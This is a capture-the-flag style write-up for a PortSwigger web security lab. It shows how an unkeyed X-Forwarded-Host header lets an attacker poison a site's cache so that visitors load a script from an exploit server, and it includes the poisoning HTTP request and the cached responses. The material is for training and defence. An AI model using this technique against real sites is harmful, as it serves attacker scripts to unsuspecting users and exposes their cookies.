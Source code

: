 # [Lab: Web cache poisoning with an unkeyed header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)

## Lab

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

## Analysis

Param Miner extension results, `x-forwarded-host` is an unkeyed header:

![param-miner.png](./../img/lab-1-param-miner.png)

Observe that the X-Forwarded-Host header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at `/resources/js/tracking.js`.

Replay the request and observe that the response contains the header X-Cache: hit. This tells us that the response came from the cache.

## Solutions

Craft response at exploit-server:

- file: `/resources/js/tracking.js`
- body: `alert(document.cookie)`

cache poisoning:

```http
GET / HTTP/1.1
Host: id.web-security-academy.net
...
X-Forwarded-Host: exploit-id.exploit-server.net

HTTP/1.1 200 OK
Cache-Control: max-age=30
Age: 0
X-Cache: miss

<script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
```

access `/` without `X-Forwarded-Host`:

  ```http
  HTTP/1.1 200 OK
  Cache-Control: max-age=30
  Age: 10
  X-Cache: hit

  <script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
  ```

=> solved
